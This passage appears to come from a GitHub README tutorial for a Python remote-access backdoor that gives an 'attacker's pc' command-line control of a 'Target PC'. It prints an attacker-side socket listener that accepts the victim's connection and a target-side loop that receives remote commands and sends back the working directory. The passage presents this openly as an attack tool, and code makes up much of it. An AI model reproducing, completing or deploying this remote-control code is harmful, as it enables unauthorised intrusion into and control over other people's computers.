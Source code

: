 ##

# :zap: Connection on attacker's pc :zap:

:star: As soon as the script is executed the attacker's machin will receive access to the CLI of the Target PC, and now we
are ready to go. It shows us to which IP address is connected and on wich port as is shown on the next photo by running this part of program. 

```python
s.listen(1)
conn, addr = s.accept()
print("")
print (addr, "Has connected to the server successfully ")

```

##
<img src=images/7.PNG  alt="alt text" width="950" height="550">

##

:star: Let's see on the Target PC, in which directory we are working by running the command ``` view_cwd ```to run the next part 
of our script:


```python
while 1:
    
    command = s.recv(1024)
    command = command.decode()
    print (" ")

    if command == "view_cwd":

        files = os.getcwd()
        files = str(files)
        s.send(files.encode())
        print ("Command has been executed successfully...")

```